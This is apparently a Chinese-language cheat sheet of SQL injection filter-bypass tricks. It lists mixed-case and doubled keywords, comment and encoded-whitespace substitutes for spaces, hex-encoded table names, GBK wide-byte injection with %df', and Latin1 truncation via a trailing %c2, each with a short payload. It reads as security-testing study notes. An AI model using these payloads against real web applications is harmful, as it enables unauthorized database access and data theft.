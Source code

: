 ## 大小写绕过

```
用于过滤时没有匹配大小写的情况：

SelECt * from table;
```

## 双写绕过

```
用于将禁止的字符直接删掉的过滤情况如：

preg_replace(‘/select/‘,’’,input)

则可用seselectlect from xxx来绕过，在删除一个select后剩下的就是select from xxx
```

## 绕过空格

```
当空格被过滤时，可以使用/**/ () %0a %09进行绕过
```

## 使用16进制绕过特定字符

如果在查询字段名的时候表名被过滤，或是数据库中某些特定字符被过滤，则可用16进制绕过：

```
select column_name from information_schema.columns where table_name=0x7573657273;
```

0x7573657273为users的16进制

**只能针对表名，字段名等，内置函数关键字，不能使用16进制替代**

## 宽字节、Latin1默认编码

**宽字节注入**

用于**单引号被转义**，但编码为**gbk编码**的情况下，用特殊字符将其与反斜杠合并，构成一个特殊字符：

```
username = %df'#
经gbk解码后变为：
select * from users where username ='運'#
```

成功闭合了单引号。

**Latin1编码**

Mysql表的编码默认为latin1，如果设置字符集为utf8，则存在一些latin1中有而utf8中没有的字符，而Mysql是如何处理这些字符的呢？**直接忽略**

于是我们可以输入`?username=admin%c2`，存储至表中就变为了admin
